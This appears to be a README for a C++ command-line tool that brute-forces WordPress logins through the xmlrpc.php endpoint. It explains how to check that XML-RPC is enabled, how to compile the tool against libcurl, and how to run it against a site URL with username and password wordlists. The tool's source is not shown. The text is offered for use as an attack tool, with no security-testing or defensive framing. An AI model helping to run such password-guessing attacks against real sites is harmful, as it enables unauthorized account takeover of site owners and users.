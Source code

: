 # Brute force wordpress websites with xmlrpc enabled

## Requirement
xmlrpc enabled

Check xmlrpc enabled: https://example.com/xmlrpc.php

Display: 'XML-RPC server accepts POST requests only.'

## Build:
`$ g++ wpxbruteforce.cpp -o wpxbruteforce -lcurl`

## Run:
`$ wpxbruteforce [url/xmlrpc.php] [usernames file] [passwords file]`

---

example:

`$ wpxbruteforce https://example.com/xmlrpc.php usernames.txt passwords.txt`
